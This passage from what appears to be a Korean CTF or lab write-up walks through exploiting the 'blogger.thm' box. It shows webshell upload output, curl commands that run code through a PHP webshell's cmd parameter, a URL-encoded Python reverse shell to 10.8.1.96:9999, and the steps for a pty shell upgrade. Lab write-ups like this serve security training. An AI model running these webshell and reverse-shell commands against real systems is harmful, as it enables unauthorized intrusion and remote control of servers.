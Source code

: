```
                                                                                                                                          
[+] Generating random name for Webshell...                                                                                                
[!] Generated webshell name: avgfvavizztmpgf                                                                                              
                                                                                                                                          
[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blogger.thm/assets/fonts/blog/wp-content/uploads/2024/06/avgfvavizztmpgf-1717746461.591.php&quot; 

> whoami

[x] Failed to execute PHP code...
```

- 하지만 실제 업로드된 웹쉘의 위치로 가 cmd GET 파라미터를 활용하면 코드 실행이 정상적으로 된다.

```
└─$ curl http://blogger.thm/assets/fonts/blog/wp-content/uploads/2025/08/fmscpyyappgkmrx-1754210413.3213.php?cmd=id;
GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)

# Python3 가 설치되어있는지 확인하기
└─$ curl http://blogger.thm/assets/fonts/blog/wp-content/uploads/2025/08/fmscpyyappgkmrx-1754210413.3213.php?cmd=python3%20--version;
GIF689a;

Python 3.5.2
```

- 이후 revshells.com 의 리버스 쉘을 URL 형식으로 인코딩하여 리버스쉘을 실행시킨다.

```
└─$ curl http://blogger.thm/assets/fonts/blog/wp-content/uploads/2025/08/fmscpyyappgkmrx-1754210413.3213.php?cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.8.1.96%22%2C9999%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22sh%22%29%27;
```

- 리버스쉘을 획득하는 데 성공한 뒤 Fully pty shell로 업그레이드를 진행했다.

```
python3 -c 'import pty; pty.spawn("/bin/bash")' 
ctrl+z 
stty raw -echo; fg 
reset 
xterm-256color
```

  - ![alt text](/images/2025-08-23-test11/image-4.png)